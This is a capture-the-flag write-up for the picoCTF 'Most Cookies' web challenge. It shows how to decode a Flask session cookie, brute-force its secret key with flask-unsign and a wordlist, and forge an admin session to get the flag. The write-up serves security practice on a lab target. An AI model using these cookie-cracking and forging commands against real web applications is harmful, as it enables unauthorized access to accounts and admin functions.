 # Web Exploitation --> Most Cookies.
This is [Link-Lab](https://play.picoctf.org/practice/challenge/177?category=1&page=1&solved=1).
# Solve Most Cookies.
1- Download `Server.py` and open url --> `http://mercury.picoctf.net:53700/`, then trace the python file and check the web site.
<br />

![0](screenshots/0.png)
<br />

2- Try check the value session, and try search about `flask cookie ctf` --> `https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/flask`.
<br />

![1](screenshots/1.png)
<br />

3- Try copy and past the `session` until decoded `base64` --> `echo session | base64 -d`.
<br />

![2](screenshots/2.png)
<br />

4- Try change the session cookie --> `flask-unsign --unsign --cookie 'eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.Y5bjCA.msY_zZLgWQ3KjZI9s7dI1VFC7y8' --wordlist .\common.txt --no-literal-eval` --> to know the type of cookie `peanut butter`.
<br />

![3](screenshots/2.png)
<br />

5- Try signed as `admin` --> `flask-unsign --sign --cookie '{"very_auth":"admin"}' 'peanut butter'` to get the his session and copy past in `session value`.
<br />

![4](screenshots/4.png)
<br />

6- finally, copy past the flag to solve it.
<br />

![5](screenshots/5.png)
<br/>

7- OR run the script `python3 solve.py session`, and copy past the session --> solved the lab.
<br />

![6](screenshots/6.png)
<br />